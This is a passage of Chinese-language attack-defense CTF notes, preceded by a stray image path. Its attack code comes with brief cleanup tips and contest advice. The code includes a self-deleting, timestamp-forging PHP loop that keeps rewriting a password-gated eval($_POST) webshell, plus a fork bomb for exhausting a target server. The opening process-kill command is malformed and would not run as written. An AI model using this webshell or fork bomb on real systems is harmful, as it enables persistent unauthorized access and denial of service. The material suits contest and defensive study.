 杀死进程

```bash
kill ps -aux | grep www-data | grep apache2 | awk '{print $2}'
```

## 不死马

### 创建

```php
<?php 
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = '2.php';
$code = '<?php if(md5($_GET["pass"])=="1a1dc91c907325c69271ddf0c944bc72"){@eval($_POST[a]);} ?>';
while (1){
    file_put_contents($file,$code);
    # 修改文件时间戳减少嫌疑？
    system('touch -m -d "2018-12-01 09:10:12" .2.php');
    usleep(5000);
} 
?>
```

### 清除

- 创建一个和不死马生成的马一样名字的文件夹。

- ps auxww|grep shell.php 找到pid后杀掉进程就可以，你删掉脚本是起不了作用的，因为php执行的时候已经把脚本读进去解释成opcode运行了

- 重启php等web服务

```bash
service php-fpm restart
```

- 用一个ignore_user_abort(true)脚本，一直竞争写入（断断续续）。usleep要低于对方不死马设置的值。


## fork炸弹

耗尽目标服务器资源

```bash
:() { :|: & };:
```


## 赛后总结

### 源码备份

源码一定要备份审计，多次备份时不要覆盖之前的源码，删错代码把自己玩死肠子都悔青了

### mysql

如果是cms框架，修改mysql密码时，默认密码可能在cms框架配置文件中
